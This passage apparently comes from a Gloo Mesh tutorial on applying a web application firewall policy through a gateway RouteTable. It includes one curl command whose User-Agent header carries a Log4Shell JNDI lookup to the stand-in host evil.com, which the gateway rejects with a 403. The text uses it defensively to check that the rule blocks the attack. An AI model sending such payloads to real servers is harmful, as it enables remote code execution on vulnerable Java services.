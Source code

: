 In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```



Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```


Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
```